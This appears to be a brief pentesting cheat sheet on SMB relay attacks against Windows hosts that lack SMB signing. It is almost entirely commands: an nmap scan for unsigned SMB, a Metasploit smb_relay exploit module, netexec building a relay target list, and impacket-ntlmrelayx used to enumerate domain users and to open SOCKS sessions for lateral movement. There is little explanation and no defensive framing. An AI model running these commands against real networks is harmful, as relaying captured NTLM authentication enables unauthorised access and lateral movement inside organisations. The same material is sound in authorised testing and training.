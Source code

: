 # SMB Relay

### Works on unsigned SMB

## Tools: Metasploit , nmap , CrackMapExec/Netexec , impacket-ntlmrelayx

### Check for unsigned SMB first!

    nmap -Pn -sS -T4 --open --script smb-security-mode -p 445 IP_ADDRESS/MASK

    use exploit/windows/smb/smb_relay (Metaploit)

    netexec smb 4hosts --gen-relay-list RELAY.TXT

### Find Users

    impacket-ntlmrelayx -tf TARGETS.TXT -smb2support (-6) --enum-domain

### Lateral Movement (SOCKS)

    impacket-ntlmrelayx -tf TARGETS.TXT -smb2support -socks (-6)
